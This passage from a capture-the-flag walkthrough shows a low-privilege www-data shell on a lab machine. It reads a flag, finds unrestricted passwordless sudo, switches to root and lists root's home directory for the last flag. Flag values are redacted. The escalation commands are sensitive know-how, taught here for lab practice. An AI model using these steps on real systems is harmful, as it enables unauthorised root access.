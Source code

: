 <br />
Get the second flag.

{% raw %}
```bash
www-data@ip-10-10-101-216:/var/www/html$ cd /home/rick
cd /home/rick
www-data@ip-10-10-101-216:/home/rick$ ls
ls
<second flag file>
www-data@ip-10-10-101-216:/home/rick$ cat <second flag file>
cat <second flag file>
<flag>
```
{% endraw %}

<br />
Use the sudo -l to see a list of all the commands the current user can execute as sudo.  Notice that we can run all command no password.

{% raw %}
```bash
www-data@ip-10-10-101-216:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-10-101-216:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-101-216:
    (ALL) NOPASSWD: ALL
```
{% endraw %}

<br />
Use sudo su - to switch the user to the root user.

{% raw %}
```bash
www-data@ip-10-10-101-216:/var/www/html$ sudo su -
sudo su -
```
{% endraw %}

<br />
Get the third flag.

{% raw %}
```bash
root@ip-10-10-101-216:~# ls -la
ls -la
total 36
drwx------  4 root root 4096 Jul 11 10:17 .
drwxr-xr-x 23 root root 4096 Jan  5 05:17 ..
-rw-r--r--  1 root root   29 Feb 10  2019 <third flag file>
-rw-------  1 root root  168 Jul 11 11:18 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
drwxr-xr-x  4 root root 4096 Jul 11 10:53 snap
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-------  1 root root  702 Jul 11 10:17 .viminfo
root@ip-10-10-101-216:~# <third flag file>
<third flag file>
<flag>
```
{% endraw %}

<br />
Hopefully you enjoyed the read.